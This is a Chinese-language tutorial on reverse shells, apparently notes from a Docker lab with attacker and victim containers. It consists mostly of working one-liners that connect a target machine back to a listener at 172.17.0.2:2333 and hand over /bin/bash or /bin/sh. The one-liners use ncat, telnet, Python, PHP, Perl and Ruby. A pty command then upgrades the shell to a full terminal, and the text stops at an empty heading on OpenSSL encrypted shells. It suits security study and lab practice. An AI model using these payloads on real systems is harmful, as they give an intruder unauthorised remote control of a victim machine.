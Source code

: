 ## 反弹shell

### 1. 利用netcat反弹shell

需要两台linux，这里用docker起了两个ubuntu。netcat在一般的linux发行版都有，不过在ubuntu上需要使用npm构建的ncat。

```shell
apt install ncat
```

起的两个ubuntu上，一个作为attacker，一个作为victim。
其中在attacker上输入：
```shell
ncat -lvvp 2333
```
开启本地监听

在victim上：
```shell
ncat 172.17.0.2 2333 -e /bin/bash
```
没有bash用sh，ncat后跟的是attacker的ip和监听的端口

随后在attacker上即可反弹shell，效果如下

![](netcat_reverse_shell.png)
可以看到，在victim上执行了ncat操作，反弹shell到attacker，其中
```shell
ls
```
是我在攻击机上弹shell成功后输入的命令。

### 2. 利用telnet弹shell

与netcat上类似，在攻击机上开启端口监听：
```shell
ncat -lvvp 2333
```

然后目标机主动连接攻击机：
```shell
mknod a p; telnet 172.17.0.2 2333 0<a | /bin/bash 1>a
```
![](telnet_reverse_shell_2.png)

其中，
```shell
whoami
ls
```
是弹shell后输入的命令

### 3. python反弹shell

提示没python先安装python
```shell
apt install python3
```

攻击机上开启端口监听

```shell
ncat -lvvp 2333
```

目标机主动连接攻击机

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.2",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

会直接出现sh提示符，如图：

![](python_reverse_shell.png)

其中

```shell
ls
whoami
ifconfig
```
为反弹shell后输入的命令，可以看到ip显示的是目标机的172.17.0.3。

#### 同理，php/perl/ruby 等脚本都可以反弹shell
#### 命令分别为：
```shell
php -r '$sock=fsockopen("172.17.0.2",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```shell
perl -e 'use Socket;$i="172.17.0.2";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```shell
ruby -rsocket -e 'c=TCPSocket.new("172.17.0.2","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
或
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.17.0.2","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 4. 获取完整终端

之前几个demo演示中，反弹得到的bash或者sh都是不完整的终端，即使获取了控制权限，但是由于显示不完整，不能通过passwd修改密码等。
所以可以通过python的pty标准库来获取一个完整的虚拟终端。

```shell
python3 -c "import pty;pty.spawn('/bin/bash')"
```
通过该命令即可模拟一个终端设备。
![](get_complete_console.png)
可以看到，终端id和目标机的也一样，ip等其他的也一样。

### 5. 通过OpenSSL反弹加密shell

